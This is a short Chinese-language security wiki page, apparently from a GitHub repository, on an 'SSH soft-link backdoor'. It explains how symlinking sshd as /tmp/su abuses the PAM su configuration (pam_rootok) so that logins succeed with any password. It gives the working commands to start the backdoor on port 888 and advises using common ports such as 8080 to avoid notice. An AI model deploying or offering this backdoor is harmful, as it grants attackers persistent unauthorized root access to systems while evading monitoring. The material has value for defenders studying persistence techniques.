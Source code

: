 # SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息（su），然而su在pam_rootok只检测uid 0即可认证成功，这样就导致了可以使用任意密码登录。

```bash
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888

```

![](images/security_wiki/15905486471369.png)


优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。

